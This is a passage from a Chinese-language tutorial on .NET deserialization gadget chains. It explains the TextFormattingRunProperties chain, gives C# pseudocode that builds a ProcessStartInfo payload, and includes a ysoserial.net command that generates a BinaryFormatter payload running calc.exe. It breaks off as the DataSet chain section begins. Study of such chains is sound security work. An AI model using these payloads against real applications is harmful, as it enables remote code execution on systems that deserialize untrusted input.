 3. **反序列化触发链条**
     - 反序列化时，`TextFormattingRunProperties` 子类的属性访问会触发 `ProcessStartInfo` 的相关操作。
     - 某些属性的 getter/setter 可能会导致命令执行。

---

### 2.4 伪代码示例

```csharp
// 构造 ProcessStartInfo，设置 FileName 为恶意命令
var psi = new ProcessStartInfo();
psi.FileName = "calc.exe";

// 构造 TextFormattingRunProperties 子类，持有 psi
var tfProps = new MyTextFormattingRunProperties();
tfProps.SomeProperty = psi;

// 构造 ResourceDictionary，持有 tfProps
var dict = new ResourceDictionary();
dict["key"] = tfProps;

// 序列化 dict
var formatter = new BinaryFormatter();
formatter.Serialize(stream, dict);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---

### 2.5 触发点与关键代码

- **TextFormattingRunProperties 子类的属性访问**  
    反序列化时自动调用，递归还原对象。
- **ProcessStartInfo.FileName/Arguments**  
    可控属性，最终导致命令执行。

---

### 2.6 影响范围

- 仅影响引用了 WPF 相关程序集（如 `PresentationCore.dll`）的 .NET Framework 应用。
- 主要影响 .NET Framework 3.0/3.5/4.x，.NET Core/5/6 默认不包含此类。

### 2.7 参考利用链（ysoserial.net）

```bash
ysoserial.exe -g TextFormattingRunProperties -f BinaryFormatter -o base64 -c "calc.exe"
```

---


## 3 DateSet链
### 3.1 什么是 DataSet 链?
